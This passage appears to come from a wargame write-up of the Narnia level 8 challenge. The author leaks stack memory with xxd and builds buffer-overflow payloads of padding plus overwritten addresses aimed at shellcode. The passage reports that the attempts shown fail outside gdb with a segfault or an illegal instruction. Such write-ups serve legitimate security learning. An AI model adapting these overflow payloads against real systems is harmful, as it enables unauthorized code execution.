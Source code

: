 We can see that it tried to execute a new program /usr/bin/bash which means it worked! Unfortunately, for some weird reason I could not get this to work outside gdb. I first tried to do the same thing by getting the original address of the blah pointer (0xffffd4fe), and subtracting 12 gives 0xffffd4f2:
```bash
narnia8@gibson:/narnia$ ./narnia8 AAAAAAAAAAAAAAAAAAAA | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 fed4 ffff d8d2 ffff 0192 0408  AAAA............
00000020: fed4 ffff 0a                             .....
narnia8@gibson:/narnia$
```

However, the following payload does not work because I think the part I'm messing up is getting the address of our shellcode:
```bash
narnia8@gibson:/narnia$ ./narnia8 $(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*20+b"\xf2\xd4\xff\xff"+b"\xd8\xd2\xff\xff"+b"\xee\xd4\xff\xff")')
AAAAAAAAAAAAAAAAAAAA����������������
Segmentation fault (core dumped)
narnia8@gibson:/narnia$ 
```

I also tried changing the address of the shellcode to be somewhere near however I now get an illegal instruction error:
```bash
narnia8@gibson:/narnia$ ./narnia8 $(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*20+b"\xf2\xd4\xff\xff"+b"\xd8\xd2\xff\xff"+b"\xfe\xd4\xff\xff")')
AAAAAAAAAAAAAAAAAAAA����������������
Illegal instruction (core dumped)
```